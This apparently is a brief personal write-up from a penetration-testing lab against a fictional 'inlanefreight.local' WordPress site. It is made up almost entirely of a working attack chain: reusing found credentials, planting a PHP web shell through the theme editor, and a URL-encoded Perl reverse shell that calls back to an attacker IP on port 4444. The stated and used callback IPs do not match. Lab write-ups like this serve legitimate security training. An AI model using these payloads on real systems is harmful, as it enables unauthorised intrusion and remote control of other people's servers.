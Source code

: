 - Credentials for `ilfreightwp:password1` has been found in `dmz01`
- after log in into wordpress the next file can be edited to add command execution
```
http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=index.php&theme=twentytwentytwo
```
- the next code should be enough
```
<?php system($_REQUEST['cmd']); ?>
```
- so the next path can execute command
```
http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/index.php?cmd=pwd
```
- After that command to get reverse shell should be 10.10.15.188:4444
```
/wp-content/themes/twentytwentytwo/index.php?cmd=perl+-e+'use+Socket%3b$i%3d"10.10.14.196"%3b$p%3d4444%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">%26S")%3bopen(STDOUT,">%26S")%3bopen(STDERR,">%26S")%3bexec("bash+-i")%3b}%3b'
```
- woala, I am in container!!!
